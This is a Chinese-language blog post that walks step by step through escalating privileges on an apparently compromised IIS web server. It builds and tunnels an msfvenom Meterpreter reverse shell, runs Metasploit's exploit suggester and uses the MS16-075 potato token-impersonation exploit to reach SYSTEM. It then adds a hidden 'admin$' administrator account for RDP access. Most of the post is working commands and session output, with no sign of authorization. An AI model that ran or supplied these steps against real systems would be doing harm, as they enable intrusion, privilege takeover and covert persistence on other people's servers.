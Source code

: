```yaml
---
layout: post
title: "记录基础提权过程"
subtitle: "记录基础提权过程"
date: 2019-08-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

##### PS：

##### 这里主要记录下提权的过程，所以shell过程就不说了，前阵子经九世大佬传授内网渗透，复习AND总结。



## 0x1 

拿到shell 查看了一个当前的权限 `whoami`

![tiquan1](/static/img/tiquan1.png)



查看进程 `tasklist` 发现无杀毒软件。

![tiquan2](/static/img/tiquan2.png)



## 0x2 MSF+ngrok 反弹获取 meterpreter 

`ngrok tcp 4444`

![tiquan3](/static/img/tiquan3.png)

**msfvenom 制作木马&&上传到webshell中**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER IP> LPORT=<SERVER PORT> -f exe > /Users/ppbibo/Desktop/2.exe
```

**msfconsole 接收会话**

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run
```

尝试 `getsystem` 失败，执行 `shell` 进入到 dos 命令查看当前打的补丁`sysinfo`

```bash
>systeminfo
                  [01]: KB2894852
                  [02]: KB2894856
                  [03]: KB2896496
                  [04]: KB2919355
                  [05]: KB2919442
                  [06]: KB2934517
                  [07]: KB2934520
                  [08]: KB2938066
                  [09]: KB2938772
                  [10]: KB2949621
                  [11]: KB2954879
                  [12]: KB2955164
                  [13]: KB2959626
                  [14]: KB2965500
                  [15]: KB2966826
                  [16]: KB2966828
                  [17]: KB2967917
                  [18]: KB2968296
                  [19]: KB2971203
                  [20]: KB2972103
                  [21]: KB2972213
                  [22]: KB2973114
                  [23]: KB2973448
                  [24]: KB2975061
    							....... 此处省略一大堆
```

[提权辅助页面](https://bugs.hacking8.com/tiquan/)

进入到提权辅助页面进行比对，然后一个个的试= =



## MSF自动识别系统存在哪些漏洞并提供最合适的exp

```bash
use multi/recon/local_exploit_suggester
// 实战中我们在拿到一个反弹shell后(meterpreter)下一步会进行提权操作，而metaspolit的内置模块Local Exploit Suggester。这个模块可以帮助我们识别系统存在哪些漏洞可以被利用，并且为我们提供最合适的exp，通过这个exp我们可以进一步提权。
```

推荐下面几个exp

```bash
[+] 127.0.0.1 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
```

测试均提示利用成功但没有会话返回，用九世哥哥的一句话就是毛用没有。

然后去之前的提权辅助页面进行 ms16_075 搜索看能不能利用

![tiquan4](/static/img/tiquan4.png)

链接：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

利用方式在链接中给出来了 **RT：**

![tiquan5](/static/img/tiquan5.png)

```bash
msf5 exploit(multi/handler) > set ExitOnsession false
ExitOnsession => false
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 3832 created.
Channel 1 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 1980 created.
Channel 2 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

执行的时候`SYSTEM` 的 `Impersonation Tokens Available` 会消失，多执行几遍就可以了，如上：

**拿到SYSTEM权限执行shell 进入到DOS命令下添加影子账户即可**

```bash
net user admin$ Passw@rd1. /add && net localgroup administrators admin$ /add
```

**RDP远程桌面端口查询**

![](/static/img/tiquan6.png)

**远程连接 RT:**

![tiquan7](/static/img/tiquan7.png)



#### RID会话劫持，退出服务器。



## 总结

没啥总结的，做个笔记。

